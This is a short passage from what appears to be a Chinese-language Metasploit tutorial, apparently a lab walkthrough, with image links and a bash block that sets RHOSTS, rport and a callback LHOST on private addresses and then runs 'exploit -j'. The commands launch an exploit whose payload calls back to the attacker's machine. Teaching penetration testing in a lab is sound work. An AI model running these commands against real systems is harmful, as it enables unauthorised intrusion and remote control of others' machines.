 ![](./images/选择合适的exp%20payload.png)
* 使用```show options```查看参数，并使用```set```进行改变参数
```bash
show options
set RHOSTS 192.168.70.4
set rport <your_port>
set LHOST 192.168.70.7
exploit -j
```
![](./images/使用options去查看payload的参数.png)
![](./images/指定lhost.png)